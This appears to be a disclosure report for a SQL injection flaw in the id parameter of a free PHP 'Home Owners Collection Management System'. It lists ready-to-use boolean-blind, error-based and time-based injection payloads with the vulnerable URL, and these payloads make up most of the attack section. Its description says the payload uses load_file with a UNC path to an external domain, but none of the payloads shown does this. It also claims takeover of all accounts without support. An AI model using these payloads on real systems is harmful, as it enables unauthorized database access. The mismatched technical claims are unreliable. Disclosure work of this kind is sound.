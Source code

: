 ## [Home Owners Collection Management System](https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html)

## [Vendor](https://www.sourcecodester.com/users/tips23)


## Description:

The id parameter appears to be vulnerable to SQL injection attacks. The payload ```page=members/view_member&id=2' OR (SELECT 9041 FROM(SELECT COUNT(*),CONCAT(0x717a7a6a71,(SELECT (ELT(9041=9041,1))),0x7176717071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'JPZH'='JPZH'``` was submitted in the id parameter. 
This payload injects a SQL sub-query that calls MySQL's load_file function with a UNC file path that references a URL on an external domain. 
The application interacted with that domain, indicating that the injected SQL query was executed.
The attacker can take account control of all accounts on this system.
Status: CRITICAL

vuln url:
```
http://localhost/admin/?page=members/view_member&id=2
```

[+] Payload:

```mysql

---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=members/view_member&id=2' AND 3866=3866 AND 'dhhU'='dhhU

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: page=members/view_member&id=2' OR (SELECT 9041 FROM(SELECT COUNT(*),CONCAT(0x717a7a6a71,(SELECT (ELT(9041=9041,1))),0x7176717071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'JPZH'='JPZH

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=members/view_member&id=2' AND (SELECT 9083 FROM (SELECT(SLEEP(5)))NEeP) AND 'DwyE'='DwyE
---

```

## Reproduce:


## Proof and Exploit:
![image](https://user-images.githubusercontent.com/95869214/153038977-0138b5a9-1a05-470a-95ed-cf48991b6387.png)

